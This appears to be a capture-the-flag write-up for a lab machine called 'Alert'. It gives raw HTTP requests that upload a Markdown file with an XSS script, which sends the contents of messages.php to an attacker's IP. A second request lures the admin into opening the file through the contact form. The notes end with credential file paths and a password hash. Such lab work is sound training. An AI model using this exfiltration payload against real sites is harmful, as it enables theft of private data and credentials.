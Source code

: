 
Upload a MarkDown file with JavaScript embedded (XSS):

POST /visualizer.php HTTP/1.1
Host: alert.htb
Content-Length: 542
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://alert.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEnBs8udtB1yPBAGn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://alert.htb/index.php?page=alert
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryEnBs8udtB1yPBAGn
Content-Disposition: form-data; name="file"; filename="ex3.md"
Content-Type: text/markdown

Hahaha
<script>
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://alert.htb/messages.php",false ); // false for synchronous request
xmlHttp.send( );
var xmlHttp2 = new XMLHttpRequest();
xmlHttp2.open( "GET", "http://10.10.14.6:8000?suction="+btoa(xmlHttp.responseText),true ); // false for synchronous request
xmlHttp2.send( );
</script>

------WebKitFormBoundaryEnBs8udtB1yPBAGn--



Now you can forward it to the admin hoping they will click on the link

POST /contact.php HTTP/1.1
Host: alert.htb
Content-Length: 97
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://alert.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://alert.htb/index.php?page=contact
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=ddd%40ddd.com&message=http://alert.htb/visualizer.php?link_share=68104ed741eed8.10388805.md





new users discovered:
dave
albert


/var/www/statistics.alert.htb/.htpasswd
/etc/apache2/sites-available/000-default.conf
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
